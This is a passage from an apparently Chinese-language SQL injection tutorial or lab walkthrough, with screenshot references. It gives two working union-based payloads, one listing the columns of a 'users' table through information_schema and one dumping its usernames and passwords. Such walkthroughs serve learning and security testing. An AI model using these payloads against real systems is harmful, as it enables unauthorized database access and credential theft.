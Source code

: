 ![9](/img/2018-07-20/9.png)
用户账号密码应该在users表里头了,我们要查的表就是`users`表了，简单修改一下payload，把`table_name`换成`column_name`，把`information_schema.tables`换成`information_schema.columns`，再把`table_schema`换成`table_name`，payload为
```
id=-1' union select 1,2,group_concat(column_name) from information_schema.columns where table_name = 'users' -- +
```
![10](/img/2018-07-20/10.png)
列也知道了，我们就直接枚举username和password，payload为
```
id=-1' union select 1,group_concat(username),group_concat(password) from users -- +
```